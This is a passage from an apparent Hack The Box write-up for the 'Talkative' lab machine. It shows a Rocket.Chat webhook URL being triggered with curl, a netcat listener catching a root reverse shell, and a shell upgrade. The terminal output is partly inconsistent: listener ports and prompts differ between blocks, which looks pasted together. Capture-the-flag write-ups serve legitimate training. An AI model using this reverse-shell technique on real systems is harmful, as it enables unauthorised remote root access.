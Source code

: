 When saved the webhook, I can see the created Incoming webhook.

![](attachments/talkative_24.png)

Then I can open it again, and copy the webhook url.

![](attachments/talkative_25.png)

Let's fetch the URL.

```ruby
┌──(kali㉿kali)-[~]
└─$ curl http://talkative.htb:3000/hooks/bq87d87bFjCwgE87N/3WHE5dbWJmqME9HJbzQf9c7uCeXwdZYQ3yn8Dbxy53ZAEBJM
{"success":false}  
```

Then I can see that I got a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 34212
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

Let's upgrade the terminal.

```bash
script /dev/null -c bash
Script started, file is /dev/null
root@c150397ccd63:/app/bundle/programs/server# ^Z
[1]+  Stopped                 nc -lnvp 445
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 445
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@c150397ccd63:/app/bundle/programs/server# 
```



# Shell as `root` on talkative

### Enumeration

> Let's stop here... Docker.. Capabilities.
> Let's visit this again, when I know more about it.
>